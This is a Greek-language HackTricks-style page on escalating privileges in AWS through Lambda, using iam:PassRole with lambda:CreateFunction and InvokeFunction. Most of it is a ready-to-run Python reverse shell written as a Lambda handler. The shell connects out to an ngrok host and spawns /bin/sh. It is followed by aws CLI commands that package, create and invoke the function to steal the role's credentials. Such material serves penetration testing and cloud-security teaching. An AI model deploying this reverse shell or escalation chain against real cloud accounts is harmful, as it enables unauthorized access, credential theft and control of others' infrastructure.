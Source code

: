 # AWS - Εscalation προνομίων Lambda

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## lambda

Περισσότερες πληροφορίες σχετικά με το lambda:

{% content-ref url="../../aws-security/aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../../aws-security/aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

Οι χρήστες με τα δικαιώματα **`iam:PassRole`, `lambda:CreateFunction`, και `lambda:InvokeFunction`** μπορούν να εξελίξουν τα προνόμιά τους.\
Μπορούν **να δημιουργήσουν μια νέα λειτουργία Lambda και να την αναθέσουν σε ένα υπάρχον IAM ρόλο**, χορηγώντας στη λειτουργία τα δικαιώματα που σχετίζονται με αυτόν τον ρόλο. Ο χρήστης μπορεί στη συνέχεια **να γράψει και να μεταφορτώσει κώδικα σε αυτήν τη λειτουργία Lambda (με ένα αντίστροφο κέλυφος για παράδειγμα)**.\
Μόλις η λειτουργία είναι εγκατεστημένη, ο χρήστης μπορεί **να ενεργοποιήσει την εκτέλεσή της** και τις επιθυμητές ενέργειες καλϋπτοντας τη λειτουργία Lambda μέσω του API του AWS. Με αυτήν την προσέγγιση, ο χρήστης μπορεί αποτελεσματικά να εκτελέσει εργασίες έμμεσα μέσω της λειτουργίας Lambda, λειτουργώντας με το επίπεδο πρόσβασης που χορηγείται στον IAM ρόλο που τη συνοδεύει.\\

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό για να πάρει ένα **αντίστροφο κέλυφος και να κλέψει το διακριτικό**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('4.tcp.ngrok.io',14305))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
time.sleep(900)
return 0
```
{% endcode %}
```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
--runtime python3.9 --role <arn_of_lambda_role> \
--handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
Μπορείτε επίσης **να καταχραστείτε τα δικαιώματα του ρόλου του lambda** από τη λειτουργία lambda ίδια.\